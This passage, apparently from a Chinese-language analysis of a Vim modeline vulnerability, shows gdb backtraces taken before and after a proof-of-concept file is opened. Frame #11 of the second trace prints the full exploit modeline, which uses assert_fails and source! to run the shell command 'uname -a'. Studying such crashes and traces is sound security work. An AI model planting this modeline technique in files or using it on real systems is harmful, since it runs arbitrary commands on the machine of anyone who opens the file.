#6  0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "", 
#7  0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8  0x00000000004ab07e in vgetc () at getchar.c:1605
#9  0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004f8512 in normal_cmd (oap=0x7ffefbcad0c0, 
#11 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at 
#12 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffefbcad3b8) at 
...

```


存在漏洞时，打开poc文件后的调用栈，有一个明显的do_shell的调用:

```shell
gdb-peda$ bt
#0  0x00007f4ba14135b3 in __select_nocancel ()
#1  0x000000000052a69c in RealWaitForChar (fd=0x0, 
#2  0x000000000052a444 in WaitForCharOrMouse 
#3  0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4  0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42> 
#5  0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42> 
#6  0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "", 
#7  0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8  0x00000000004ab07e in vgetc () at getchar.c:1605
#9  0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004ce972 in wait_return (redraw=0x1) at message.c:901
#11 0x000000000045ce32 in do_shell (
    cmd=0x15c7ea0 "uname -a||\" vi:fen:fdm=expr:fde=assert_fails(\"source!\\ %\"):fdl=0:fdt=\"", flags=0x0) at ex_cmds.c:1572
#12 0x000000000045c50c in do_bang (addr_count=0x0, 
#13 0x000000000047f480 in ex_bang (eap=0x7ffe20228c50) at 
#14 0x00000000004741d3 in do_one_cmd (cmdlinep=0x7ffe20228d80, 
#15 0x0000000000470d89 in do_cmdline (cmdline=0x0, 
#16 0x00000000005002cd in nv_colon (cap=0x7ffe202293f0) at 
#17 0x00000000004f9650 in normal_cmd (oap=0x7ffe20229480, 
#18 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at 
#19 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffe20229778) at 


```

